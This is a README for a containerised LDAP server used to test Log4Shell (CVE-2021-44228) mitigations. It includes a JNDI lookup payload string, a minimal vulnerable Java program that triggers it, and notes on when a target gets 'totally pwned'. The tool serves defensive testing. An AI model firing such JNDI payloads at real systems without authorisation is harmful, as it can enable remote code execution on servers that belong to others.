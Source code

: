 # log4shell-ldap
A tool for checking [log4shell](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) vulnerability mitigations.

## Usage:
- Build a container image: `docker build . -t log4shell`
- Run it: `docker run -p 3000:3000 -p 1389:1389 -e publicIp=<IP> log4shell`

Replace `<IP>` with an actual IP address of the host running the container. For local tests `localhost` should work just fine. 

Once the tool is running use `curl` to test it's reachable: `curl http://localhost:3000` 

This should print something like this:
```
$ curl http://localhost:3000
To test an application try to make log4j print ${jndi:ldap://localhost:1389/probably_not_vulnerable}
```
This output indicates the tool is running and curl was able to connect to it. 
If `curl` fails then check the IP address passed to `docker run`.

Assuming the `curl` test works then you can test an actual Java application. 
This is the simplest Java application:
```java
package mypackage;

import org.apache.logging.log4j.LogManager;

public class Main {
    public static void main(String[] args) throws Exception {
        LogManager.getLogger(Main.class).fatal("${jndi:ldap://<IP>:1389/probably_not_vulnerable}");
    }
}
```
Again, replace `<IP>` with the IP address you used to start a container image. 
To compile it with Maven you will have to add following dependency into`pom.xml`:
```xml
<dependency>
  <groupId>org.apache.logging.log4j</groupId>
  <artifactId>log4j-core</artifactId>
  <version>2.14.1</version>
</dependency>
```
The application has 3 possible outcomes:
- Prints _totally pwned!_. This is happening when a vulnerable log4j2 version is executed on old Java.
   This is the worst case as it allows a very simple arbitrary remote code execution.
- Prints _Reference Class Name: probably vulnerable_. This means a vulnerable log4j2 version is executed on recent Java.
   This makes it a bit harder to abuse the vulnerability, but RCE may still be possible and there is also a risk of DoS.
- Prints _${jndi:ldap://<IP>:1389/probably_not_vulnerable}_
   This means the application is either not vulnerable or the test is misconfigured :)

## Development Setup
To compile the tool outside a container you have to build Java payload first. You can do this by running
a script prepareLocalEnv.sh. This requires JDK8 to be available. The script was tested on Linux only, I appreciate reports
how it works on other platforms.


## TODO
- Refactoring. The code is simply hideous. 
- Public container into DockerHub. Is this a good idea?
- Include Gadgets from the [yoserial project](https://github.com/frohoff/ysoserial) to try to RCE when running 
on recent Java updates. 

## Disclaimer
This is an educational tool created purely for purposes of checking various log4shell mitigations and is not intended
to be used to attack systems except where explicitly authorized. 
Author is not responsible or liable for misuse of the software. Use responsibly.

## Credits
- [yoserial project](https://github.com/frohoff/ysoserial) for the disclaimer:)
- Examples in the [goldap project](https://github.com/vjeantet/ldapserver/blob/9f1711e226a4d7984fd4c9d341a13537a38546a7/examples/complex/main.go). I used the Complex example as a template.
